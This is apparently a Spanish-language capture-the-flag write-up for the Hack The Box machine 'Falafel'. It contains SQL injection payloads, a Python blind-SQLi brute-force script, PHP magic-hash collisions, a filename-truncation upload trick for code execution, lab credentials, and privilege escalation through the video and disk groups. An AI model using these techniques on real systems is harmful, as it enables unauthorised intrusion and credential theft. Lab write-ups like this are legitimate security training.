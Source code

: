 # Falafel-htb

## NMAP 

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/ffd07a22-4230-406d-b6bc-02d705ac03d7)


En el puerto 80 se encuentra un portal con un login si intentamos ingresar datos para ver como se comporta nos damos cuenta que existe el usuario admin e incluso se pueden enumerar usuarios.

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/00e9573b-abce-4d5e-a3ae-91c80a12df17)

Tambien nos damos cuenta que el portal es vulnerable sql injection. Se puede usar este mensaje para una blind SQLI.

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/59e9e1b7-fadd-4ba3-9f74-8290b9203e93)


```
admmin' or 1=1-- -
admin' order by 100-- - # Manda error lo que seria un indicador claro que si es vulnerable.
```

Para aprovecharlo si esta bien nos va a mostrar el otro mensaje

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/03bb7c46-b5b9-44a1-9e79-644676ae6530)

```
admin' and substring(username,1,1)='a'-- -

Saldra mensaje de que el usuario es correcto pero no el password si esta mal pone Try again.

admin' and substring(username,1,1)='a'-- -
```

Script s4vitar

```
#!/usr/bin/python3


from pwn import *
import requests,time, sys, pdb, signal, string

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)


#Ctrl + C


signal.signal(signal.SIGINT, def_handler)

# Variables globales

login_url="http://10.129.229.139/login.php"
characters=string.digits + "e" # string.ascii_lowercase



def makeSQLI():

	p1 = log.progress("SQLI")
	p1.status("Iniciando  proceso de fuerza bruta")	
	time.sleep(2)


	p2 = log.progress("Password")
	password = ""

	for position in range(1,50):
		
		for character in characters:
			post_data = { 'username': "admin' and substring(password,%d,1)='%s'-- -" % (position, character),
							'password': 'test'
							}

			p1.status(post_data['username'])

			r = requests.post(login_url, data=post_data)

			if "Try again.." not in r.text:
				password += character
				p2.status(password)
				break





if __name__ == '__main__':
	makeSQLI()




```

## PHP Juggling 

Una vez que sacamos el hash del usuario admin probamos esta vulnerabiidad. Esta vulnerabilida se proboca por no usar tres = en una comparacion entonces cosas que no son iguales al compararlas mal si son iguales por ejemplo:

```
  $ echo -n 240610708 | md5sum
    0e462097431906509019562988736854  -
    $ echo -n QNKCDZO | md5sum
    0e830400451993494058024219903391  -
    $ echo -n aabg7XSs | md5sum
    0e087386482136013740957780965295  -
```

El hash osea la contraseña del usuario admin empieza con 0e  entonces buscamos una colicion que empiece con 0e php se va a equivocar y nos va a tomar cualquiera de las contraeeñas de arriba como una contraseña valida una vez que el usuario ingrese la contraseña y este se hashee.

## RCE

El limite de tamaño de nombre de un archivo en Linux es 255 y siempre que tengas wget e visto que puede tener este tipo de vulnerabilidades. entonces lo qu ehace es que corta el nombre del archivo a los 232 bytes mas 4 osea apartir del 232 puedes poner el .php y para pasar la proteccion de solo subir imagenes pues pones .php.jpg.


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/efcfecac-9ce4-4d31-aa2e-e67f2d465d67)


```
http://10.10.15.72/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.JPG
```


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/46fbdf73-385b-4c98-9f74-1a2ab7bf714d)


Para saber los limites utilice la herramienta para exploit de metasploit.

```
# Primero esta
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255

# Y para saber el offset donde se corta esta

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 255 -q h7Ah 
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/d2497383-dfbb-475a-ad47-456496dc1a54)


## Priv escalation 

Ya una vez dentro revisamos los datos de la conexion a la base de datos y nos da la contraseña del usuario moshe

```

moshe

falafelIsReallyTasty

```


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/8043397d-6b3d-4466-9e2a-3c8041039ef4)

Como este usuario pertenece al grupo video

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/5d9214dc-7bfa-431b-be9d-433fd4d1e9b2)

Es posible que puedan tomar capturas de pantalla. Usamos el w para ver que usuario esta loggeado

```
w
```
El archivo para sacar una captura de pantalla la pasamos a nuestro equipo y la abrimos como RAW se prueban varios formatos RAw y la abrimos con un editor tipo adobe photoshop pero de linux llamdo gimp

```
cat /dev/fb0 > out
gimp
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/ea171245-8c8f-41d0-94f9-53bb35927cda)


Para que nos muestre las coordenadas correctas se tiene que sacar el size:

```
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```

COn lo cual ya tenemos ahora las credenciales del usuario yossi:

```

yossi

MoshePlzStopHackingMe!

```

### debugfs

debugfs es un sistema de archivos especial disponible en el núcleo Linux desde la versión 2.6.10-rc3.​ Si te encuentras en el grupo disk practicamente tienes acceso a cualquier directorio del sistema

```
debugfs /dev/sda1
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/195c68e7-1258-4bc4-8d4d-f8d0c76ce5a6)

Ya tenemos acceso a lo que sea del sistem

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/88ad209e-18b2-431a-a7aa-c29f1e1ad3e4)

Podemos leer la flag...


# Bibliografia

Los grupos que son peligrosos tal como video o como disk todo lo puedes encontrar aqui

> https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe



































































